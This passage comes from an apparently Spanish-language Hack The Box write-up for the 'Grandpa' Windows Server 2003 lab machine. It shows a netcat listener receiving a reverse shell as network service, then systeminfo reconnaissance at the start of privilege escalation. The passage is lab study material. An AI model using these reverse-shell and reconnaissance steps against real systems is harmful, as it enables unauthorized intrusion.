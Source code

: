 - Instantáneamente nos otorga una shell en nuestro sistema

```bash
rlwrap nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.14 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

---------------------
# ESCALADA DE PRIVILEGIOS

- Ejecutamos una serie de comandos de reconocimiento básicos 

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 2 Minutes, 31 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 801 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,336 MB
Page File: In Use:         134 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
